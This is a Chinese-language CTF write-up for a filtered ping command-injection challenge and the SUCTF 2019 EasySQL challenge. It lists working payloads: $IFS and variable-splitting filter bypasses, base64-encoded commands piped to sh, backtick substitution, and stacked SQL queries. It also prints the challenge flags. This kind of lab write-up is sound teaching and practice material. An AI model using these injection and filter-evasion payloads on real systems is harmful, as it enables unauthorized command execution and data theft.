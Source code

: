3. 阻止 bash：
如果输入中包含 "bash"，程序会拒绝并输出 "fxck your bash!"。

4. 阻止 flag：
如果输入中包含 "flag"，程序会拒绝并输出 "fxck your flag!"。

方法一：

payload:`/?ip=127.0.0.1;s=ag;d=fl;cat$IFS$1$d$s.php`

原理：变量替换，ag写在前面防止检测

方法二：

payload:`/?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh`

原理：cat flag.php进行base64编码，用`sh`执行`echo`命令

方法三：

payload:``/?ip=127.0.0.1;cat$IFS$9`ls` ``

原理：先执行`ls`，再把返回的值传入`cat xxx`

需查看源码才能看到flag（一开始还以为靶机有问题，重启了好几次XDD）

`flag{c397edc5-dc1e-45e1-b1d1-2726fca99f2a}`

## [SUCTF 2019]EasySQL

尝试可得，当输入是不为0的数字时，会输出`Array ( [0] => 1 )`，可猜测这里有一个判断，当为真时继续执行接下来的操作。

查阅wp，大佬们已经纷纷猜测出来了这里的语句：

````sql
select $_GET['query'] || flag from Flag
````

### 方法一

payload:`1;select * ,1`

结合上面的语句，构建出来是这样的：

`select *,1 || flag from Flag`


`1 || flag` 中的 `||` 是一个字符串连接操作符，用于将字符串连接在一起。

`1` 是数字 1，在进行字符串连接时，数据库系统通常会自动将数字转换为字符串类型。
`flag` 是`表 Flag` 中的一个字段/列。

因此，`1 || flag` 的意思是将数字 1 和 flag 列的值连接成一个新的字符串。如果 `flag` 列的值是 `A`，则 `1 || A` 的结果会是字符串 `1A`。

所以总体的意思就是，从`Flag`表中选择所有数据以及由`1`和`flag`组成的字符串，输出：

`Array ( [0] => 1 ) Array ( [0] => flag{6fc12e75-bcc3-4c8d-9bfd-85a2630b9f31} [1] => 1 )`

### 方法二

payload:`1;set sql_mode=PIPES_AS_CONCAT;select 1`
